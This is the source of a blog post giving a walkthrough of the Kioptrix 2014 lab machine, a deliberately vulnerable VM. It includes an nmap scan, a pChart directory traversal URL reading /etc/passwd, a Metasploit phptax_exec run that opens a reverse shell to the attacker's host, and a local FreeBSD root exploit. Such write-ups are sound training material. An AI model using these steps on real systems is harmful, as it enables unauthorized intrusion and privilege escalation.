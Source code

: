 ```yaml
---
layout: post
title: "Kioptrix 2014"
date: 2014-06-27 19:01:09 +0300
comments: true
categories: [writeups, penetration testing]
keywords: kioptrix, penetration testing, hacking, security, kioptrix 2014, kioptrix 2014 solution, kioptrix 2014 walkthrough, kioptrix 2014 writeup
description: Penetration testing Kioptrix 2014
---
```


Right when I thought I was finished with the Kioptrix vulnerable machines, I discovered there is a new addition to the series! This is great, because I really enjoyed the Kioptrix challenges! So let's dive in!
<!-- more -->

First, if you have problems with booting it up, check out the fix and instructions from http://vulnhub.com/entry/kioptrix_2014-5,62/

Let's fire Nmap:

``` plain
nmap -A -p1-65535 192.168.127.130

Starting Nmap 6.46 ( http://nmap.org ) at 2014-06-27 19:14 EEST
Nmap scan report for 192.168.127.130
Host is up (0.0031s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
| http-methods: Potentially risky methods: TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-methods: No Allow or Public header in OPTIONS response (status code 403)
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:BB:7C:98 (VMware)
Device type: general purpose
Running: FreeBSD 7.X|8.X|9.X
OS CPE: cpe:/o:freebsd:freebsd:7 cpe:/o:freebsd:freebsd:8 cpe:/o:freebsd:freebsd:9
OS details: FreeBSD 7.0-RELEASE - 9.0-RELEASE
```

Next I used the browser to check what is being hosted on ports 80 and 8080. On port 80 there is just an "It works!" message, and on port 8080 I got the Forbidden message. But on port 80's page source code, there is a comment revealing additional functionality:

``` html
<META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
```

{% img center /images/pchart.png 'pchart' 'pchart' %}

Searching for pChart reveals that this version is affected by [directory traversal and XSS](http://www.exploit-db.com/exploits/31173/)

So we can read any file that the web server is sufficiently privileged to read with the following string:

``` plain
http://192.168.127.130/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd
```

In this case, there wasn't much information that could be of further use, and I wasn't able to read /etc/shadow, which was to be expected. Fortunately, the Apache configuration file is helpful. Since this is a FreeBSD system, the file is located in <code>/usr/local/etc/apache2x/httpd.conf</code> , *x* being the version number. At the moment, the only thing I could find interesting was this part at the very end of the file:

``` plain
SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser

<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>
```

So it appears that a certain user agent receives special treatment! Let's verify this by changing the UA (I used the User Agent Switcher add-on for Firefox). And when I went to http://192.168.127.130:8080/ , there was a directory index for something called phptax! No more forbidden errors!

{% img center /images/phptax.png 'phptax' 'phptax' %}

So, [the program](http://sourceforge.net/projects/phptax/) is used to generate PDFs. The good news (for us, not for the dilligent tax payers) is that it's [vulnerable to remote code execution](http://www.exploit-db.com/exploits/21665/), and there's also a Metasploit module available for it:

**PhpTax pfilez Parameter Exec Remote Code Injection**

> This module exploits a vulnerability found in PhpTax, an income tax report 
> generator. When generating a PDF, the icondrawpng() function in drawimage.php does 
> not properly handle the pfilez parameter, which will be used in a exec() statement, 
> and then results in arbitrary remote code execution 
> under the context of the web  server. Please note: authentication is not required to exploit this vulnerability.

``` plain
msf > use exploit/multi/http/phptax_exec
msf exploit(phptax_exec) > show options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        Use a proxy chain
   RHOST                       yes       The target address
   RPORT      80               yes       The target port
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8


msf exploit(phptax_exec) > set RHOST 192.168.127.130
RHOST => 192.168.127.130
msf exploit(phptax_exec) > set RPORT 8080
RPORT => 8080
msf exploit(phptax_exec) > set payload cmd/unix/reverse 
payload => cmd/unix/reverse
msf exploit(phptax_exec) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
msf exploit(phptax_exec) > exploit

[*] Started reverse double handler
[*] 192.168.127.1308080 - Sending request...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ROZVUxzhMsI70Nsb;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "ROZVUxzhMsI70Nsb\r\n"
[*] Matching...
[*] A is input...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo D6E80V1rZ169oQA6;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "D6E80V1rZ169oQA6\r\n"
[*] Matching...
[*] B is input...

whoami
www
```

We managed to break through. Now let's see how we can become root. I used [this mmap/ptrace exploit](http://www.exploit-db.com/exploits/26368/)

I downloaded it to my machine and served it on netcat, than I connected from the victim to the attacker machine and saved the file to the /tmp directory. From there, it was a matter of compiling it and running it:

``` plain
gcc -o exploit 26368.c
chmod a+x exploit
./exploit
whoami
root
```

In the /root directory, there's another congrats.txt from loneferret:

``` plain
cat congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in 
mind, and not meant for the seasoned pentester. However this does not mean one 
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks. 

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
it will give you an idea. For fun, I installed "OSSEC-HIDS" and monitored a few things.
Default settings, nothing fancy but it should've logged a few of your attacks. Look
at the following files:
/root/folderMonitor.log
/root/httpd-access.log (softlink)
/root/ossec-alerts.log (softlink)

The folderMonitor.log file is just a cheap script of mine to track created/deleted and modified
files in 2 specific folders. Since FreeBSD doesn't support "iNotify", I couldn't use OSSEC-HIDS 
for this.
The httpd-access.log is rather self-explanatory .
Lastly, the ossec-alerts.log file is OSSEC-HIDS is where it puts alerts when monitoring certain
files. This one should've detected a few of your web attacks.

Feel free to explore the system and other log files to see how noisy, or silent, you were.
And again, thank you for taking the time to download and play.
Sincerely hope you enjoyed yourself.

Be good...


loneferret
http://www.kioptrix.com


p.s.: Keep in mind, for each "web attack" detected by OSSEC-HIDS, by
default it would've blocked your IP (both in hosts.allow & Firewall) for
600 seconds. I was nice enough to remove that part :)
```

This concludes the Kioptrix series, and cheers to **loneferret** for creating these awesome challenges!

> Today is the first day of the rest of the mess.
